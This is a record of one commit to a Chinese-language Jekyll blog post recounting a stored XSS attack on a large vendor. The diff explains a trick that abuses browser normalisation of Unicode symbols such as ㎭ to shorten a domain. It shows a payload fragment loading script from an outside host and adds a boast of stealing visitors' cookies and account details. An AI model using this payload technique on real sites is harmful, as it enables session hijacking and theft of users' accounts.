

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md, in a window 1280 px wide and 1400 px high, scrolled down 580 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1940 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md

````diff
--- a/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
+++ b/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
@@ -45,14 +45,14 @@
 说实话，想了短域名等方法，都没想到解决方案，差点就放弃了
 
 但最后，还是想到了一个特别奇淫巧计的东西能利用：utf-8编码符号
-众所周知，utf-8字符集里有各种各样的符号，可能都见过，比如像：
+众所周知，utf-8字符集里有各种各样的字母符号，比如像：
 ```
 ™	8482	2122
 ℡	8481	2121
 ™	8482	2122
 ㎭
 ```
-但不知道的是，在浏览器解析他们时，会自动按一下格式转换
+但绝大多数人不知道的是，在浏览器解析这些字母符号时，会自动按一下格式转换
 ```
 ™	tm
 ℡	tel
@@ -67,3 +67,5 @@
 ```js
   " script=http//㎭q.cc
 ```
+
+最后顺利注入，挂了个document.cookie，用户点进我的个人主页，我都能获取到cookie、登陆设备、账号等敏感信息
````
Also changed, not shown: other parts of _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md (+2 -2 lines).
